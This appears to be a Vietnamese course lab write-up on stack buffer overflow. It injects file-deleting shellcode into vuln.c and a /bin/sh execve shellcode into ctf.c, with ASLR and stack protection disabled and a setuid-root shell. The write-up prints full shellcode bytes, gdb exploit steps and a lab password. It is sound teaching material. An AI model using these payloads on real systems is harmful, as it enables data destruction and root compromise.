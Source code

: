 Lab 2:

# Inject code to delete file: file_del.asm is given on github

Ý tưởng:

-   Program injected: file_del.o được biên dịch từ file_del.asm
    
-   Đối tượng bị chèn vào: vuln.c

Các bước:

1. Dịch mã máy từ file_del.asm thành file_del.o\
    `nasm -g -f elf file_del.asm `\
 ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcQIVWHD1iadEHZep9K55e_2ob3jPBDXtqATQvb2qYfaehaLJTSHs5a559M3ou6fiOHEsKmc6uHWB5tCYEX2KMpToq_9tXAv-cxStpYBDMPx3IIIezR5eGXcBnO3N3sBblCRcEaAfaMxKcXvaIU2hL0fgY?key=x066aHYoH5XtbJjV6Ng-LQ)

2. Link file_del.out với lệnh file_del\
`ld -m elf_i386 -o file_del file_del.o `\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe3OoBdDkJp7idolhrmbYqguAbCsucW-GmHHkZTe7K612tfmLV4TcLGM9eU9VmJvhigM5Is-yV1iPp2QqhUUA96KnBvI157uJHKOeWYpOZCPYhGqKFnYaR3qMZJ4BoCFRs3tJ3TnzWya98PaqG3p9GkbRg?key=x066aHYoH5XtbJjV6Ng-LQ)\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXegracxlM1zwXtsRKM-UvdedDnAFX7Rr0_y1f9hk69cyo_QVk_ABSouIeEUqBqqnBYj2XhFaAFa4INaItF92kdju1VYlmu7LCYn0S939wzsQUQInbKMfzjNC4U5voC61pBVK89nIfzHdLzBcs4MsHKcHF-_?key=x066aHYoH5XtbJjV6Ng-LQ)
    
3. Disassem chương trình file_del  
`objdump -d file_del `\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdTjMDyYv459ARkFwM9iVfszV8aeJE3pogQ5IPYlufXx9Gf1qQDDftJlwaLM5yJiLbRZYtzNP-EaMvejM5RU950YWJxdHmzckZM0Q7UdjbeUO2Bi92d8AULobsOv6Re5rWjZQ6TGi7CHwxng5A7CPMoBDY?key=x066aHYoH5XtbJjV6Ng-LQ)
    
4. dịch chương trình file_del từ hợp ngữ thành mã máy  
`for i in $(objdump -d file_del | grep "^ " | cut -f2);do echo -n '\x'$i; done; echo`![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfYe2o8lL9kwg5bMXu5xrWoTK0nbyTZOfOgPZHnBrPs2UN3J3_hDuEBJ146ykJ9eTJakeoCwk09ebR_U4ZLgwJ3JPdjFAYH_G1EI_5crtOycEp9wxnL6cMFy4aNGHSWCuqsJ1KoJ2WO386-E3fueU9RqM8?key=x066aHYoH5XtbJjV6Ng-LQ)  
Kết quả cho ra là: `\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\xdummyfile.`
    
5.  Dịch chương trình đối tượng: vuln.c thành vuln.o  
`gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeZ9ABA_1KiObJj2QUfm6Hy0BQ6SDoLV799XuttVum_Da6bMdiU-LALTjo86pyipoozIXO9kPrxy60iQeC3Cgvy3fMbLJoKTqHTQkVKQ-L-p4m1uOSpWZWKsFD3TXLvw8g_HO84sy0dn-HW8zux31lIarNM?key=x066aHYoH5XtbJjV6Ng-LQ)
    
6.  aaa  
`sudo ln -sf /bin/zsh /bin/sh`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcB9mQh9boKp_0s3id9x_TNV91mrWeBvm6giv1E19Y358fttoRP8wzQybKpKhyhgKIYMp7qvA1d4rit8dM15g8Pukrfs161es2HPhcYO24Ka3RPjyUkDUYNkSfwkMsmW-Q4Q3vfiRSq8y4c6zZp1K3O3uI1?key=x066aHYoH5XtbJjV6Ng-LQ)  
    (Password: dees)
    
7.  Debug chương trình đối tượng vuln.out  
`gdb -q vuln.out (P/s: -q Quite: không bla bla, chạy thẳng vào chương trình debug. Demo below:)`
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeOZuT-Y-D8xTgQBQrJQ-cXwgbygc-iFygnB75Z1qQvpNNsWYlA_cbCPUhAbX7PMiuf34GHBlieU_948BYMNjBZbKzS_XNbEvlTZUNh6iJVLnE04B8F1UvrRExk2Bvgja6DkTl9IBmWBL211usvNf_1ASzY?key=x066aHYoH5XtbJjV6Ng-LQ)
    
8.  Disassemble hàm main để đặt breakpoint trước và sau khi chạy lệnh strcpy  
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfAvMCRd8vadEfkSaTVBCoZ342_LVShHjvyN91qksvL1yJGLZRjfWF2PXPEQ4ILy76HmtYIUSIQ0EmAJTOixGPRBfFIElYRTQk4VF_rpz2j251MbyQL6IYW2QkJul-Ybz9pmK_T8UoSAVexqbN5cS_TUh4?key=x066aHYoH5XtbJjV6Ng-LQ)
9.  Đặt breakpoint tại vị trí 1 và 2 theo hình trên:  
    Lý do:
    - Sau khi chương trình đã hoàn thành khởi tạo stack: push ebp vào stack, lưu esp = ebp, push biến khởi tạo (char buf[64]) vào trong stack (0x40 là 64 byte ở dạng thập lục)  
    - Sau khi hoàn thành lệnh strcpy và đã giải phóng ebp và trở về return address (‘ra’)  
    Bằng lệnh:\
    `b *0x08048441`\
    `b *0x0804846b`\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXddHftwjaIAomnUfTJbftN778zpVZ7UGwCBSxIZfyjFhr-LKIfp3OEiALnL301NVmJmIO82_EB7UizAap2boWu8ceWCdBSGEN9tXU2jAEWXiRYtNhE0ThPofS5SUFLy6taM1zBIhgCsYpNWHdlTSIpyn7vm?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Extra: Kiểm tra breakpoint bằng info breakpoint và xoá breakpoint bằng lệnh del [số thứ tự của breakpoint]
    
10.   Chạy debug chương trình vuln.out với giá trị đầu vào của argv[]  
 `r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65' + 'a' * 23 + '\xff\xff\xff\xff')")`\
Giải thích: r Run chương trình python [...]\
`print(“[chương trình file_del ở dạng mã máy] + ‘a’ 23 lần + [giá trị ngẫu nhiên]”)`\
Giải thích về ‘a’ 23 lần:\
Stack của hàm main()\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfd6JeOXapIP7aCfbg4igVY2MpOmVbFiGD7LE8d4SOo7c3pcZr84dJY9nzmbaxlUOg_ynd7RZJXJUmQOmIWjK_YLcXVz2CvDR7t_2sfwvOA22EvF64c-C6ajoD3lT5KJThR2UrEzAa23sbQ3OkBLGn8eNR6?key=x066aHYoH5XtbJjV6Ng-LQ)\
    Ảnh chi tiết từ buf đến ‘ra’ của stack main  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeCyYQ75GmFBipRzNUaydXbMvXR8RN4B3hlsIOJsqMyJ9E0GRhn_o2I2Fu9bsYjiKrOjE7BapKD7w4yiTk0N6_4oy5dhPgO1g1CkGy55vfiJXW6l45u_7nhjPkQm--p5a3xnUkSR0Kk6spOttI8a59PVv4z?key=x066aHYoH5XtbJjV6Ng-LQ)\
    biến buf có dung lượng là 64 bytes, chúng ta cần ‘tiêm’ chèn vào trong biến mất 45 bytes nghĩa là buf còn lại 19 byte và chúng ta cần fill hết 19 byte đó bằng ký tự ‘a’  
    Phía dưới của biến buf là ebp (base pointer aka frame pointer/ extended base pointer) có dung lượng là 4 bytes và chúng ta cũng cần fill với 4 ký tự ‘a’\  
    Đến ‘ra’ cũng có dung lượng là 4 bytes và đó là nơi chúng ta lưu vị trí của chương trình file_del cũng là địa chỉ của con trỏ esp (extended stack pointer) (sau khi hoàn thành stack thì con trỏ esp luôn ở trên cùng của stack nghĩa là ở trên của biến cuối cùng được thêm vào)  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeHTpass1StoowTLUFxMn5xafGO36vV_wkI_SVay1hUVfVpCTx_V-cVMbZ26_gO8vpIVfkfMjgM9MwBwRbBBkC2pQpa53TZMHgLaDskrvPZbu1qMdySVA9GMuBuWGwRJjwnYSXMUxrsPD5k7C7Cixcq1V3G?key=x066aHYoH5XtbJjV6Ng-LQ)  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdDv9Eu7I5ni-Qh99r9_2cDX1SA5yUocwOZ-_t8aoHKVIQLW4280dUStXPoZ5PMc8_wSDFxeFsh5VZBnCwcYdbCNhfn3D0x7nSxG6Qyo81BGRsyeU_3-J1QrR8r9HHupKCC1-tih8KqefnydkyBma1sC4t9?key=x066aHYoH5XtbJjV6Ng-LQ)\
11.   Xuất 80 bytes từ con trỏ esp\
`x/80xb $esp`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdSCmk5Hs5I3KhndgTpi8Diiw9MUqPooEtUFEmbJKUg1Yyww2TGvfHu2B0zfreqNlEI30t3P1tXPthdHfvxojq8aiFJ22GvszBolgGJBU7KN4KJ0BqYpTA193aX93xVwLuYfx4BEHPrAnQImnjegUJ8-xF4?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Giải thích: Tại sao lại là 80 bytes\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcQPYE671s2lYTm_FHnyDs6ZXezisSA_vVuGfHwpt8IW1VgBDZiKtSvEX5bEpEegM0qnaMouMNDjwx7jgo8XtibTHEPY7Ls2olWQZ9qTJnlYrnVn-5-PLEcLmUXgY2I5SRxf5lF2W1A9WtKvsLoppU9OflW?key=x066aHYoH5XtbJjV6Ng-LQ)\
    Stack của hàm main gồm argv[] 4 bytes, argc 4 byte, ‘ra’ 4 bytes, ebp 4 bytes, buf 64 bytes. Tổng là 4 + 4 + 4 + 4 + 64 = 80 bytes  
    Nghĩa là stack của hàm main có 80 bytes và con trỏ esp ở trên cùng của stack. Từ đó xuất 80 bytes từ con trỏ esp nghĩa là xuất hết các giá trị trong stack\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe4ou9j0EvlDEoy84oX1NZkeSuU2MBEtUCOl1vg8LqEfihixKp4_0GDtnzdJLH_OQg0Oym1_zjIu_yhFIpurQWk0zrA_3gtYpVI11DBxzDAKh6eL1bhgHDsshPRGePL8zZV3RVAi2mEJxurr6OW3VZp168J?key=x066aHYoH5XtbJjV6Ng-LQ)\
12.   Chèn vị trí của esp (phía trên buf để chạy chương trình được chèn ở đầu buf) vào ‘ra’ để chương trình khi kết thúc stack sẽ chạy buf  
    *** Nhớ là set sau khi chương trình đã được chèn sau khi lệnh strcpy đã được thực thi nhá!\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXf1JUcca3oVFNhL4CKPK7T6KwycCIwyRycYLkaKNHFoNmyegmElOxY1fm6zTzDYQG7z3eJobQkiSEhX34c4iw0xxhatSKXEtDGoWlGui_NRSWTWZJDTI82civeUI3K1b0ulrCWC8O8vmddHbr78nq6Abtg?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Done

# Conduct attack on ctf.c

 1.  Chuẩn bị môi trường để tấn công:  
    Tắt cấp phát địa chỉ stack ngẫu nhiên để dễ kiểm soát địa chỉ stack:mặc định là 2  
    `sudo sysctl -w kernel.randomize_va_space=0`\
    Tạo symbolic link tới zsh thay vì sh (default) để tránh bị ngăn chặn root từ Ubuntu  
    `sudo ln -sf /bin/zsh /bin/sh`
 2.  Biên dịch chương trình sh.asm thành sh.o rồi link thành sh để thực thi  
    `nasm -g -f elf sh.asm` -> tạo ra file sh.o\
    `ld -m elf_i386 -o sh sh.o` -> tạo ra file sh
 3.  sh là chương trình lấy quyền điều khiển của chương trình. Khi thực thi .sh sẽ xuất hiện shell ký hiệu là ‘$’ nghĩa là quyền thực thi chương trình của user seed (user hiện tại) chứ k phải quyền điều khiển root (administrator của window)\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdjWDrbmUojSXG2gSFc_rOfuPSMlVR6J-T80CbvtVILtQ3U-fxuyBjXYnqG_FNX7byv269EYQgmxAe6QTZyjUqK-yf4tCax4QDkrdiN1encz7Tqpj7D6UevY-qv0HDlgWU8IXM6jVLC8WkZ30eVN-1gL5M?key=x066aHYoH5XtbJjV6Ng-LQ)\
    Để *leo thang đặc quyền* cho chương trình sh có quyền của root ta thực hiện các thao tác sau.
 4.  Chuyển quyền sở hữu của file sh cho root 
    `sudo chown root sh`\
    (P/s: password là dees)\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdWMukUtYhNT4Nn661GgLPqcigp1s7Bbl5_WM920XBqHtfKfuKXbaiyFAE_fAKKsfBP9Abj3YaqLTGHYCIy3YvMGS2d_SSrkF0UZTvfwoEn2LlZiAWECLowpefRIbp0IfSMqAwqThSnL0CPiPDkQPpGkoDu?key=x066aHYoH5XtbJjV6Ng-LQ)\
    1.  Thay đổi quyền truy cập của file sh thành 4755  
   `sudo chmod 4755 sh`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfJ0xaiH5bGbpyg07UphikAeWl0stG2k-9bG1U8quXxBxmz5FOihtScQjqhwNzm95eP6DRKyUwFG4gF7UpDjW44kE9qxlre2vUHd-gjUZut4oRm1EHugLl7WgIRz_BH6EZMVyI9vPyl0uElMdn2nksGbAG0?key=x066aHYoH5XtbJjV6Ng-LQ)  
    [Giải thích:      
    ](https://www.youtube.com/watch?v=lNEa855uipg)chmod Change mod  
    4 là chạy với quyền thực thi của owner thay vì là user, ở đây là quyền của root thay vì là của seed\
    7 là các quyền của owner: rwx là read write execute\
    5 là các quyền của group owner: r-x là read and execute\
    5 là các quyền của other user: r–x là read execute\
 1.  Sau đó chạy chương trình sh bằng `./sh`    
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfeLt4eWpp9H-LUhnnVA9go06SZWerG_iH10Z2sJEGlFkWDNSgK041MPHRCCoxLAaifCS3mXN5T419Pbfpy0Vce3KjPeXYZH9I0TbOFp0aczjgMvJ8eprFwn3UN9WxT33aLL64JD21d1bOtOYSfCvp0utDh?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Dấu # sẽ hiện ra nghĩa là đang thực thi shell ở quyền root thay vì $ của user  
    Thoát bằng lệnh exit    
 1.  Biên dịch chương trình đối tượng ctf.c thành ctg.out với tắt các cơ chế bảo vệ để có thể tấn công:  
`gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`   
 1.  Rã chương trình sh thành opcode  
`for i in $(objdump -d sh | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo`
    Kết quả cho ra:
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80  `\
    size: 27 bytes  
Debug chương trình ctf.out  
    `gdb -q ./ctf.out`  
Sau đó rã hàm vuln và tìm vị trí của chương trình trước khi chạy strcpy và sau khi đã khởi tạo stack\
    `disas vuln`\
    Tạo breakpoint tại các điểm trước và sau khi strcpy\
    `b *0x080485b3`\
    `b *0x080485c5`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe3i-Kb3Y6-4mdXDGx_SJBT4PeH2fjs8nbhCqYEfdS06sCekFfN1HC2pTVyUU_Q24H_MLbficsmxVcdUaFNy_uVWNSdNqcx0JZZ8Wr9BYaMaSlFJrsg_GvaOrhqsV2M9Ks15lxsDcgqIbWDBP2tge9C8yNq?key=x066aHYoH5XtbJjV6Ng-LQ)
 1. Chạy debug chương trình\
`r $(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80' + 'a' * 77 + '\xff\xff\xff\xff')")`\
Trong lần đầu chạy thì chương trình sẽ dùng ở breakpoint
1. Dùng lệnh `x/108xb $esp` để xuất 108 bytes kể từ địa chỉ của con trỏ esp.\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdpuCT8PuyM6RgJHGoMm2Ct18_9HdO0kOFmKmWKnIuyRYaQVE9m7_lchyRN6qapxW9u49QFAilQDM8bS5AVjsL8XTgyQDNXK02C3xYqzbRUiZ_0yYKDClUet9JxbQGRoCkX37_xfoRG8-Jek8CVg1ApOy9Z?key=x066aHYoH5XtbJjV6Ng-LQ)\
Tiếp tục chương trình bằng lệnh `continue` để đến breakpoint 2.
Dùng lệnh `x/108xb $esp` để xuất 108 bytes kể từ địa chỉ của con trỏ esp.
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXca0HqNLeIUkPjoaxLj4-ARRXDTrdT-ybpOfs6D2-jn8vwyzymxjDfWs-HwCy4oHCDsrsJyGRRPEBGDB2M5vExdvCH4o4ekCpqY3SrVXVjqdNV6RELQHhZPorSLVgO3J044UsbSfwovPrd6VN1RGB31Yih0?key=x066aHYoH5XtbJjV6Ng-LQ)\
Chương trình sh đã được chèn thành công vào trong buf[100] của chương trình ctf.out\
Chúng ta cần thay đổi địa chỉ của 'ra' thành địa chỉ của esp là địa chỉ xuất phát của chương trình được tiêm vào.\
`set *0xffffd6e0 = $esp`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfGOnFEzJ_1UQhRK4IywOlc59rBKJbLnrcqXipIsoAiBdUP2XlVqtWruwgJsHRWmzlB9p6LBBhIuh-qPR6JJY2YnZ6uLhCXIssncTiyR8gDYA0qBCAXeVVuebCc2za7lb3G9TkmsuOLSlWeh0cXSB3mc-kA?key=x066aHYoH5XtbJjV6Ng-LQ)\
*Giải thích: vì sao lại là 0xffffd6e0*
*Vì tại địa chỉ bắt đầu của 'ra'*